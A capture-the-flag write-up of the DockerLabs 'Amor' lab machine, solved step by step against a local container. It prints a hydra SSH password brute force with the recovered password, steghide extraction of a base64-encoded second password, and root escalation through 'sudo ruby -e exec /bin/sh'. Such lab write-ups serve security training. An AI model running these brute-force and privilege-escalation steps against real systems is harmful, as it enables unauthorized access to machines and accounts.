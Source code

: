 #Amor DockerLabs - 15/05/2024

#web - https://dockerlabs.es/#/

We performed an nmap scan:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 18:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00010s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7e:72:b6:8b:5f:7c:23:64:dc:15:21:32:5f:ce:40:0a (ECDSA)
|_  256 05:8a:a7:27:0f:88:b9:70:84:ec:6d:33:dc:ce:09:6f (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: SecurSEC S.L
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.27 seconds
```

We find a port 80 which we access:

![Captura de pantalla 2024-05-15 185252](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/79eda3a9-5edc-4533-8754-6f427123fdd9)

We did a directory scan with gobuster but found nothing:

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/server-status        (Status: 403) [Size: 275]
Progress: 661680 / 661683 (100.00%)
===============================================================
Finished
===============================================================
```

We also look at what the website has and see reports where we found a very interesting one:

![Captura de pantalla 2024-05-15 185307](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/2fcf8350-3dcf-4c12-9d5e-532b10445255)


We see a user ‘juan’ fired so we forget about him and another one called ‘carlota’.
We proceed to do a brute force attack with hydra:

```shell
└─$ hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-15 18:49:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-15 18:49:47
```

It finds the password so let's try to log in with your username:

```shell
└─$ ssh carlota@172.17.0.2                                                
carlota@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

I tried to do a ‘sudo -l’ and a ‘find / -perm -4000 -user root 2>/dev/null’ but there is nothing exploitable.
Searching through the directories we found:

```shell
carlota@602e73150064:~/Desktop/fotos/vacaciones$
```

Where there is a ‘.jpg’ file and we download it to our local machine.

```shell
└─$ scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Desktop/Machines/Amor/
```

We use steghide to find the hidden information in the file in case we find something:

```shell
└─$ steghide extract -sf imagen.jpg
Enter passphrase: 
the file "secret.txt" does already exist. overwrite ? (y/n) y
wrote extracted data to "secret.txt".

```

```shell
└─$ cat secret.txt
ZXNsYWNhc2FkZXBpbnlwb24
```

We found something so we are going to decrypt it:

```shell
└─$ echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
eslacasadepinypon
```

Thinking that it could be that I thought it was a password but I could not find another user, I tried with the user ‘root’ but nothing I got again to the ssh server to browse the directories and we found a new user:

![Captura de pantalla 2024-05-15 185222](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/e3dcba9f-9a7d-435f-9259-6c033cda849b)

Entramos con el usuario "oscar" y su contraseña:

```shell
└─$ ssh oscar@172.17.0.2  
oscar@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.6.9-amd64 x86_64)
```

We see that we can log in and now we try to escalate privileges with this user to see if we can with this one:

```shell
$ sudo -l
Matching Defaults entries for oscar on 602e73150064:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User oscar may run the following commands on 602e73150064:
    (ALL) NOPASSWD: /usr/bin/ruby
```

We see that we can escalate privileges, we go to ‘https://gtfobins.github.io/gtfobins/env/’.
Search for ruby and paste the sudo command in the terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'
```

```shell
# whoami
root
```
